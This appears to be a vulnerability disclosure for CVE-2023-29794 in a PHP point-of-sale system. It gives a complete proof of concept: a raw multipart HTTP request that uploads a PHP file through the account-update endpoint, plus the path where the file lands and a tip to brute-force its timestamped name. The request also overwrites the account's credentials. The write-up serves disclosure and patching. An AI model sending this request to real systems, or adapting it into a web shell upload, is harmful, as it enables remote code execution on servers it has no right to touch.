 # CVE-2023-29794

2. Download sourcecode from https://www.sourcecodester.com/php/16127/best-pos-management-system-php.html

2. Deploy the system

3. The php file upload point is http://172.31.171.96/kruxton/ajax.php?action=update_account

4. The http message is 

   ```
   POST /kruxton/ajax.php?action=update_account&XDEBUG_SESSION_START=11078 HTTP/1.1
   Host: 172.31.171.96
   Content-Length: 698
   Cache-Control: max-age=0
   Upgrade-Insecure-Requests: 1
   Origin: null
   Content-Type: multipart/form-data; boundary=----WebKitFormBoundary91u2mx53LUNjwQtX
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
   Accept-Encoding: gzip, deflate
   Accept-Language: zh-CN,zh;q=0.9
   Cookie: PHPSESSID=trdjs8jl8md348msi4p8aq5tu9
   Connection: close
   
   ------WebKitFormBoundary91u2mx53LUNjwQtX
   Content-Disposition: form-data; name="email"
   
   value
   ------WebKitFormBoundary91u2mx53LUNjwQtX
   Content-Disposition: form-data; name="firstname"
   
   value
   ------WebKitFormBoundary91u2mx53LUNjwQtX
   Content-Disposition: form-data; name="lastname"
   
   value
   ------WebKitFormBoundary91u2mx53LUNjwQtX
   Content-Disposition: form-data; name="password"
   
   value
   ------WebKitFormBoundary91u2mx53LUNjwQtX
   Content-Disposition: form-data; name="img"; filename="123.php"
   Content-Type: text/plain
   
   <?php phpinfo();?>
   ------WebKitFormBoundary91u2mx53LUNjwQtX
   Content-Disposition: form-data; name="submit"
   
   提交
   ------WebKitFormBoundary91u2mx53LUNjwQtX--
   
   ```

   ![](https://github.com/paiqian/kruxton/blob/main/static/image-20230311152452601.png)

5. and then the system would create a php file in ./kruxton/assets/upload

   ![](https://github.com/paiqian/kruxton/blob/main/static/image-20230311151123673.png)

6. then access page http://172.31.171.96/kruxton/assets/uploads/1678518540_123.php

   ![image-20230311151402551](https://github.com/paiqian/kruxton/blob/main/static/image-20230311151402551.png)

   The format of the file name is the timestamp plus the file name of the upload. The value of the timestamp is the timestamp corresponding to the time of the upload moment. You can bursting it in the approximate range.

> notice: the user's username and password change to the values passed at upload time

